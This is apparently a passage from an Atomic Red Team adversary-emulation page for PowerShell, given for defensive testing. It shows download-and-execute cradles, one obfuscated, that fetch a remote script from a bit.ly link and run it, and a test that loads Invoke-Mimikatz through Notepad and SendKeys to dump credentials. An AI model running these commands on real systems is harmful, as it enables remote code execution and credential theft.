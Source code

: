 #### Attack Commands: Run with `powershell`! 


```powershell
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()
Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e';SI Variable:/0W 'Net.WebClient';Set-Item Variable:\gH 'Default_File_Path.ps1';ls _-*;Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value);Set-Variable J ((((Get-Variable igZ -ValueOn)|GM)|?{$_.Name-like'*w*i*le'}).Name);(Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value,(GV gH).Value);&( ''.IsNormalized.ToString()[13,15,48]-Join'')(-Join([Char[]](CAT -Enco 3 (GV gH).Value)))
```






<br/>
<br/>

## Atomic Test #5 - Mimikatz - Cradlecraft PsSendKeys
Run mimikatz via PsSendKeys. Upon execution, automated actions will take place to open file explorer, open notepad and input code, then mimikatz dump info will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** af1800cf-9f9d-4fd1-a709-14b1e6de020d






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$url='https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr
```
